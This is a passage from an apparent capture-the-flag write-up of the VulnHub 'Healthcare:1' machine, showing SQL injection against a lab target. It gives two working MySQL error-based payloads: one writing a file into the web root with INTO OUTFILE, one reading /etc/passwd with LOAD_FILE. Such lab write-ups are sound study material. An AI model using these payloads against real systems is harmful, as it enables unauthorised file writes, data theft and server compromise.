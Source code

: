 But before we login as those users, I wanna try if we can write/read arbitrary files via SQL injection:

**Write file:**
```sql
' and updatexml(null,concat(0x0a,(SELECT "test" INTO OUTFILE "/var/www/html/test.txt")),null)-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821185014.png)

**Read file:**
```sql
' and updatexml(null,concat(0x0a,(SELECT LOAD_FILE("/etc/passwd"))),null)-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821185146.png)
